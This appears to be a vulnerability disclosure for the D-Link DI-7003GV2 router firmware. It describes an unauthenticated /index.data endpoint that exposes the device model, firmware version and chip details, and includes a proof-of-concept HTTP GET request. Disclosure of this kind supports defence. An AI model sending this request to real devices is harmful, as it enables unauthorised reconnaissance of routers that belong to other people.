 # Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlink.com.cn/techsupport/download.ashx?file=7828

# Affected version

DI-7003GV2-24.04.18D1 R(68125)

# Vulnerability description

The D-Link DI-7003GV2 firmware version 24.04.18D1 contains an information disclosure vulnerability in the `/index.data` endpoint. This unauthenticated interface allows remote attackers to access sensitive device details, including the device model, firmware version, chip model, and network interface status. 

# Vulnerability details

The handling function for `index.data` interface is `sub_4357BC`.

![图 0](img/5b69399b93e6f6b5917951633b3c1c206766f8151e1e92420284f525a030087c.png)  

The function `sub_4357BC` will output sensitive information such as device model, version, and chip model.

![图 1](img/aa30bb65b5daa6c193f24d0c57bc84299ad2659b4c0f25f243b5d4811a7a19d8.png)  



# Poc

```http
GET /index.data HTTP/1.1
Host: 192.168.140.240
Content-Length: 0
Cache-Control: max-age=0
Origin: http://192.168.140.240
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.140.240/login.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
```

![图 2](img/93425c1774b4402a704219d2ab275053afef958799cf069c02ead5fda38aa518.png)  

